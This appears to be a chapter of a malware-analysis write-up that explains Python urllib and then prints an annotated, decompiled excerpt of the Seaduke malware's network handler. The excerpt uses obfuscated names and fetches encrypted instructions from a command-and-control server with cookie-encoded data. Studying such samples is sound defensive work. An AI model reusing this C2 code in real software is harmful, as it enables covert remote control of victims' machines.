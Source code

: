 # fetching resources with urllib
urllib makes it easy to [fetch internet resources](https://docs.python.org/2/howto/urllib2.html) from a given url:
```python
# create "opener" (OpenerDirector instance)
opener = urllib2.build_opener(handler)

# use the opener to fetch a URL
opener.open(a_url)
```
seaduke's [main()](https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2183) relies on `NetworkHandlerKlass` to [fetch a resource](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/fetch.md) (presumably containing further instructions) from a command and control server.
```python
class NetworkHandlerKlass(object):

    def __send_request(self,**ps):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
        url = ps.pop('url',self.url)
        encoded_cookie_data = None
        dqy = None
        if ps:
            encoded_cookie_data = self.__encode_cookie(ps)

        # windows 
        if botKlass.current_transport=='wininet':
            pass
            pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQiyze=HttpKlass(url,self.user_agent)
            dqy=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQiyze.send_request(encoded_cookie_data,self.referer)

        # linux
        else:
            pass
            pd = urllib2_build_opener()  # https://docs.python.org/2/howto/urllib2.html
            pd.addheaders=[('User-agent',self.user_agent)]
            if encoded_cookie_data:
                pd.addheaders.append(('Cookie',encoded_cookie_data))
            if self.referer:
                pass
            pz = pd.open(url)
            dqy = pz.read()  # ATTENTION: this is the resource retreived from url
            yed = pz.info().get('Content-Encoding')
            if yed:
                dqy = CryptoKlass.unpack_data(dqy, yed)
        return dqy  # encrypted response to be decrypted by NetworkHandlerKlass
```
